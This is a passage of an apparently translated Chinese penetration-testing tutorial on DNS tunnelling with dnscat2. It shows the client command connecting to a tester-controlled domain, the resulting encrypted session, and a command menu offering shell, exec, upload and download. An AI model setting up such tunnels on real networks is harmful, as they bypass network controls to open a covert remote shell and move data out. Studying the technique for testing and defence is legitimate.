 opendns.online是处于渗透测试人员控制之下的一个域名。此外，重要的一点是让权威DNS服务器为opendns.online生成一个密钥。这个密钥将以“共享秘密”的方式，用于对隧道期间的通信进行加密。除此之外，dnscat还提供了两种不同的客户端命令。即使你能够向外部服务器发送DNS查询，也不要忘记大多数安全网络是不允许任何人使用外部DNS服务的。

然后，在客户端上执行如下所示的命令。



```
root@pentest:/opt/dnscat2/client# ./dnscat --secret=7040f6248e601519a9ebfb761e2402e3 opendns.online
    Creating DNS driver:
     domain = opendns.online
     host   = 0.0.0.0
     port   = 53
     type   = TXT,CNAME,MX
     server = 12.0.0.2
    ** Peer verified with pre-shared secret!
    Session established!
```

会话一旦建立，就会在服务器上看到一个“new window created”的消息。



```
dnscat2&gt; New window created: 1
    Session 1 Security: ENCRYPTED AND VERIFIED!
    (the security depends on the strength of your pre-shared secret!)
```

让我们看看在通信期间捕获的DNS数据包。下面的截屏表明，客户端向内部DNS服务器发送了相应的CNAME解析请求。

[![](https://p1.ssl.qhimg.com/t01f6d19bc8dab2aec9.png)](https://p1.ssl.qhimg.com/t01f6d19bc8dab2aec9.png)

可以看到，DNSCAT2客户端向服务器发送几个TXT解析请求，然后通过CNAME启动了加密通信。即刻起，渗透测试人员就可以通过那条隧道为所欲为了。



```
dnscat2&gt; session -i 1
    New window created: 1
    history_size (session) =&gt; 1000
    Session 1 Security: ENCRYPTED AND VERIFIED!
    (the security depends on the strength of your pre-shared secret!)
    This is a command session!
    That means you can enter a dnscat2 command such as
    'ping'! For a full list of clients, try 'help'.
    command (pentest) 1&gt; help
    Here is a list of commands (use -h on any of them for additional help):
    * clear
    * delay
    * download
    * echo
    * exec
    * help
    * listen
    * ping
    * quit
    * set
    * shell
    * shutdown
    * suspend
    * tunnels
    * unset
    * upload
```
